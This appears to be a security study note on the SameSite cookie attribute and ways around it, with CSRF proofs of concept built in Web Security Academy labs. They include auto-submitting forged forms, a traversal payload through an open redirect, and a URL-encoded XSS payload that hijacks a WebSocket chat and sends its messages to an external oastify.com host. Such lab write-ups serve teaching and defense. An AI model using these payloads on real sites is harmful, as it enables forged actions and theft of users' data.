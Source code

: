 # SameSite 101

>[!question] What is the SameSite attirbute for cookies?
>SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. As requests to perform sensitive actions typically require an authenticated session cookie, the appropriate SameSite restrictions may prevent an attacker from triggering these actions cross-site.

They provide partial protections against various cross-site attacks, including:
- [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md)
- Cross-Site leaks
- [CORS based attacks](CORS%20based%20attacks.md)

>[!important] Domain =/= site
>Important distinction as it means that any vulnerability enabling arbitrary JavaScript execution can be abused to **bypass site-based defenses** on other domains belonging to the same site.
>
>This allows other kind of attacks, like:
>- [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md)
>- [Cookie Tossing](Cookie%20Tossing.md)
>- [Cookie Eviction](Cookie%20Eviction.md)

In the context of SameSite cookie restrictions, a **site** is defined as a combination of **scheme** + the **top-level domain** + **one additional level of the domain**:
- `http://app.example.com` and `https://app.example.com` are considered two distinct sites.
- `http://app.example.com` and `http://app2.example.com` are considered the **same site** (because 3rd level domain and below are not considered)

A **site** is also different by an **origin** (ref. [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md) for further information):

| Request from            | Request to                   | Same-site?            | Same-origin?               |
| ----------------------- | ---------------------------- | --------------------- | -------------------------- |
| https://example.com     | https://example.com          | Yes                   | Yes                        |
| https://app.example.com | https://intranet.example.com | Yes                   | No: mismatched domain name |
| https://example.com     | https://example.com:8080     | Yes                   | No: mismatched port        |
| https://example.com     | https://example.co.uk        | No: mismatched eTLD   | No: mismatched domain name |
| https://example.com     | http://example.com           | No: mismatched scheme | No: mismatched scheme      |

SameSite can have three different values:
- **Strict**: browsers will not send the cookie in any cross-site requests.
- **Lax**: browsers will send the cookie in cross-site requests, but only if **the request uses the `GET` method** and it **resulted from a top-level navigation** by the user, such as clicking on a link.
- **None**: browsers will send this cookie in all requests to the site that issued it, even those that were triggered by completely unrelated third-party sites.
  >[!warning]
  >When setting a cookie with `SameSite=None`, the website must also include the `Secure` attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set.

# Common bypasses and flaws

## Bypass SameSite Lax restrictions using GET requests

Sometimes server aren't always fussy about whether they receive a GET or POST request to a given endpoint. In this case it's possible to **transform a `POST` request into a `GET` request** and bypass the Lax restriction.

  >[!note]
  >As long as the request involves a **top-level navigation**, the browser will still include the victim's session cookie. Form submissions do not work!
  
  ```html
  <script> document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000'; </script>
  ```
  Even if an ordinary `GET` request isn't allowed, **some frameworks provide ways of overriding the method** specified in the request line:
  ```html
  <form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
  ```

## Bypass SameSite Lax restrictions with newly issued cookies

Cookies with Lax SameSite restrictions aren't normally sent in any cross-site POST requests, but there are some exceptions. To avoid breaking single sign-on mechanisms, **Chrome doesn't actually enforce these restrictions at all for the first 120 seconds after a cookie is set**. It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack.
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/');
    // open a popup to force the cookie refresh
    window.onclick = () => {
        window.open('https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account')
    }</script>
    <form action="https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test123&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Bypass SameSite restrictions using on-site gadgets

If a cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests. However, you may be able to get around this limitation if you can **find a gadget** that results in a secondary request within the same site, like an [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or an [Open Redirection](Open%20Redirection.md) from the DOM.

  >[!example]
>Javascript file performing a dom redirection, called from the page `/post/comment/confirmation?postId=2` with the following line `redirectOnConfirmation('/post');`:
>
  >```js
>redirectOnConfirmation = (blogPath) => {
>    setTimeout(() => {
>        const url = new URL(window.location);
>        const postId = url.searchParams.get("postId");
>        window.location = blogPath + '/' + postId;
>    }, 3000);
>}
>```
>Exploit:
>```html
><script>document.location="https://0ab7007804429578c1546dc7002c0017.web-security-academy.net/post/comment/confirmation?postId=../../../../../../my-account/change-email?email=test%40test.com%26submit=1";</script>
>```
  
   >[!warning]
  Note that the equivalent attack is not possible with server-side redirects. In this case, browsers recognize that the request to follow the redirect resulted from a cross-site request initially, so they still apply the appropriate cookie restrictions.

## Bypass SameSite restrictions via vulnerable sibling domains

It's essential to keep in mind that a request can still be same-site even if it's issued cross-origin. Vulnerabilities that enable you to elicit an arbitrary secondary request, like [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or subdomain takeover, can compromise site-based defenses completely, exposing all of the site's domains to cross-site attacks, including:
- [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH)) 
- [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md) 
- [Cookie Tossing](Cookie%20Tossing.md)
- [Cookie Eviction](Cookie%20Eviction.md)


  >[!example]
  >Session cookie has the SameSite attribute set to Strict: `Set-Cookie: session=9zoajIpR9fdqvXj3IiNbzNHQhC7q8yCo; Secure; HttpOnly; SameSite=Strict`
  >XSS gadget on a different domain from the same site of the vulnerable application:
  >![CSRF2](../../zzz_res/attachments/CSRF2.png)
  >Final PoC to leak victim's chat and perform [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH)):
  >```html
  ><script>document.location="https://cms-0a8b0080049320f7c0df54a800d500f6.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%38%62%30%30%38%30%30%34%39%33%32%30%66%37%63%30%64%66%35%34%61%38%30%30%64%35%30%30%66%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%7d%3b%0a%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%37%79%36%67%30%35%33%73%71%67%7a%30%36%7a%66%31%74%36%61%6d%75%34%64%37%71%79%77%70%6b%68%38%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=pippo";</script>
>```
